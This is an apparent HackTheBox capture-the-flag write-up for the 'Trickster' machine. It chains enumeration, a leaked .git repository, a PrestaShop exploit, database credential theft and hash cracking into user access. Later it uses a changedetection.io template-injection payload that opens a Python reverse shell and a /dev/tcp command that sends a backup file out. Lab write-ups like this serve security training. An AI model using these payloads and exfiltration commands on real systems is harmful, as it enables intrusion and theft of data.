### Port Scan


```shell
┌──(kali㉿kali)-[~/HTB/Trickster]
└─$ nmap -sC -sV -A -T4  10.10.11.34 -o scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-07 16:28 EST
Nmap scan report for 10.10.11.34
Host is up (0.088s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:01:0e:7b:b4:da:b7:2f:bb:2f:d3:a3:8c:a6:6d:87 (ECDSA)
|_  256 90:c6:f3:d8:3f:96:99:94:69:fe:d3:72:cb:fe:6c:c5 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://trickster.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: Host: _; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   54.63 ms  10.10.14.1
2   171.63 ms 10.10.11.34

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.45 seconds

```
### Initial Port Scan
An initial scan of the target revealed two open ports:

- **Port 22 (SSH)**: Running OpenSSH 8.9p1 Ubuntu
- **Port 80 (HTTP)**: Hosting Apache HTTPD 2.4.52 (Ubuntu)

Upon accessing the HTTP server, we were redirected to `trickster.htb`.



### Domain Setup
To interact with the web application, the domain `trickster.htb` was mapped in the hosts file. Within the site, navigation to the "Shop" section revealed a secondary domain, `shop.trickster.htb`, hosted on the PrestaShop CMS platform.



### Subdomain and Directory Enumeration
Using `ffuf`, additional directories were enumerated, including a `.git` directory, which was cloned to analyze the codebase and potentially uncover sensitive information.



```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://FUZZ.trickster.htb -H "Host: FUZZ.trickster.htb" -mc 200,301,302
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://shop.trickster.htb/FUZZ -mc 200,204,301,302

```

Found that **/.git** is accessible: 



### Git Repository Analysis
The cloned Git repository was examined for sensitive information, such as configuration files, credentials, and historical changes. This analysis aimed to uncover potential exploits or backdoors inadvertently committed to the repository.
Use  [GitDumper](https://github.com/arthaud/git-dumper) to clone the disclosured repo:



Log the last commit with git show:

```shell 
git show 
```

Found the admin panel is on **/admin634ewutrx1jgitlooaj** 




### PrestaShop Vulnerability
The version of Prestashop installed is **8.1.5** and is vulenarable to [CVE-2024-34716](https://github.com/aelmokhtar/CVE-2024-34716) , so let's clone the repository and run the exploit, considering it needs admin email which can be found in the home page of the shop website: admin@trickster.htb.



So run the command with: 

```shell
python3 exploit.py --url http://shop.trickster.htb --email admin@trickster.htb --local-ip 10.10.15.30 --admin-path admin634ewutrx1jgitlooaj
```



In config.inc.php:

```shell
$ cd /var/www/prestashop/config
$ cat config.inc.php | grep parameters
if (!file_exists(_PS_ROOT_DIR_ . '/app/config/parameters.yml') && !file_exists(_PS_ROOT_DIR_ . '/app/config/parameters.php')) {

```

Let's go into **/app/config/** and cat **parameters.php**

```shell
$ cd app
$ cd config
$ cat parameters.php

```


Let's log in in the database:

```shell
$ mysql -u ps_user -p
Enter password: prest@shop_o
```




Go look inside ps_employee table and you will able to find users credentials:

```
admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C
james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm 
```



Logout from reverse shell and try to crack with hashcat

```shell
┌──(kali㉿kali)-[~/HTB/Trickster/CVE-2024-34716]
└─$ cat james_hash        
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm                  
┌──(kali㉿kali)-[~/HTB/Trickster/CVE-2024-34716]
└─$ hashcat -m 3200 -a 0 james_hash /usr/share/wordlists/rockyou.txt
.....
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6y...yunCmm
Time.Started.....: Fri Nov  8 17:00:13 2024 (12 secs)
Time.Estimated...: Fri Nov  8 17:00:25 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     3156 H/s (3.38ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 37056/14344384 (0.26%)
Rejected.........: 0/37056 (0.00%)
Restore.Point....: 37040/14344384 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-16
Candidate.Engine.: Device Generator
Candidates.#1....: alwaysandforever -> Victor
Hardware.Mon.#1..: Util: 76%

james' password is alwaysandforever
```

Let's try ssh into james:



```shell
userflag:24cd8325f667dad2097e5f8ef8c0df48
```



From linpeas there is docker network interface, this means containers are running, so we have to find the right port on which it's running, but we can't access docker's data as far as we are not sudo. Let's test some ports trough:

```bash
#!/bin/bash

TARGET_IP=$1
START_PORT=$2
END_PORT=$3

for (( port=$START_PORT; port<=$END_PORT; port++ ))
do
    nc -zv -w 1 $TARGET_IP $port &> /dev/null
    if [ $? -eq 0 ]; then
        echo "Port $port is open"
    else
        echo "Port $port is closed"
    fi
done

```

Save this script into a file and run **chmod +x script.sh** and

```shell
james@trickster:/tmp$ ./script.sh 172.17.0.2 1 5000
```

so try to forward this port trough ssh

```shell
┌──(kali㉿kali)-[~/HTB/Trickster/CVE-2024-34716]
└─$ ssh -L 5000:172.17.0.2:5000 james@10.10.11.34
james@10.10.11.34's password: 
Last login: Fri Nov  8 22:02:00 2024 from 10.10.15.30
james@trickster:~$ 
```

On localhost 5000 we have **changedetection** login panel, in which we can login using same james password:

Version: **v0.45.20** and googling about i found this vulnerability XSS: [GitHub](https://github.com/dgtlmoon/changedetection.io),  let's try if its vulnerable: 

```html
">
```



Use this payload: [cve-2024-32651](https://github.com/zcrosman/cve-2024-32651)

```shell
python3 cve-2024-32651.py --url http://localhost:5000 --ip 10.10.15.30
```



Go in Notifications tab using the payload below and click on send test Notification:



```python
gets://10.10.15.30
------------------
{{ self.__init__.__globals__.__builtins__.__import__('os').system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.30",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")\'') }}
```

Now the exploit will send you the container's root shell on listening terminal:



from /datastore folder:




```shell
nc -l -p 9999 -q 1 > changedetection-backup-20240830194841.zip
-------
cat changedetection-backup-20240830194841.zip > /dev/tcp/10.10.14.71/9999  
```

